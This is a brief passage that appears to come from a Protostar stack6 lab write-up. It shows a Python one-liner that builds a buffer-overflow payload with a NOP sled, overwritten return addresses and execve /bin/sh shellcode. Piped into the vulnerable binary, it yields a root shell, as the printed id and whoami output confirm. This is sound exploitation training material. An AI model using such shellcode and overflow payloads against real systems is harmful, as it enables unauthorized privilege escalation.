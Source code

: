 Got the shell.
```
user@protostar:~$ python -c 'print("\x90"*(80) + "\xf9\x84\x04\x08" + "\xd4\xf7\xff\xbf" +  "\x90"*100 + "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42")' > /tmp/exploit6_ret2text
user@protostar:~$ cat /tmp/exploit6_ret2text - | /opt/protostar/bin/stack6
input path please: got path in/shJAAAABBBB
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root

```